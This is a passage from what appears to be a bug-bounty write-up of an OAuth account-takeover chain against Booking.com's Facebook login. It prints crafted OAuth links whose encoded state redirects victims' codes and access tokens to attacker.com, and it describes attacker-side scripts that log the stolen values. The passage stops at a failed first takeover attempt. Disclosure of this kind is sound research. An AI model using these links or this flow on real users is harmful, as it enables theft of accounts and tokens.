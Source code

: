 **Flow summary:**

<figure><img src="https://cdn.prod.website-files.com/6334717ca56db62653270dc5/6400a45745e2aef9efbc0dfb_5.png" alt=""><figcaption></figcaption></figure>

Step 1: The attacker sends the victim the following link:

_https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ\&scope=email\&response\_type=code,token\&client\_id=210068525731476_

Steps 2 and 3: After the victim clicks on the new link (with response type=code,token), Facebook **automatically** redirects the user to the URL from security gap 2 with a code in the **hash fragment**:

_https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ#code=\[secret\_code]\&access\_token=\[token]_

Steps 4 and 5:  It’s the URL with the open redirection (the state points to attacker.com), so Booking redirects the victim to: _https://attacker.com/index.php_

Step 6: The browser add the code to the hash fragment, and redirects the victim to:

_https://attacker.com/index.php#code=\[secret\_code]\&access\_token=\[token]_

**Optional: Let see the source code of attacker.com/index.php:**

**Index.php** - a javascript code that reads the url and sends it to save.php.

<figure><img src="https://cdn.prod.website-files.com/6334717ca56db62653270dc5/63fd2a6d9f5c4e6f11f2d412_14.png" alt=""><figcaption></figcaption></figure>

**Save.php** - save the inputs to a log file.

<figure><img src="https://cdn.prod.website-files.com/6334717ca56db62653270dc5/63fd2a76848a5945e469bc4b_15.png" alt=""><figcaption></figcaption></figure>

(I generated the code with sanppify.com)

**Account takeover Attempt 1**

At this point, we have the code of the victim. We (as the attacker) need to start a new login flow and replace our code with the victim code. We click again “sign-in with Facebook” and sign in using our account.

In the normal flow, after Facebook authenticate us, it redirects us to Booking with our code:

_https://account.booking.com/social/result/facebook?code={our\_code}\&state=\[large\_object]_

**We intercept this request.** We replace the code with the victim stolen code:

_https://account.booking.com/social/result/facebook?code={victim\_code}\&state=\[large\_object]_

Booking.com should exchange the code for a token, and get the profile info of the victim.

What comes back? Wait for it …

“Invalid code”

Nothing happens. What did I miss?
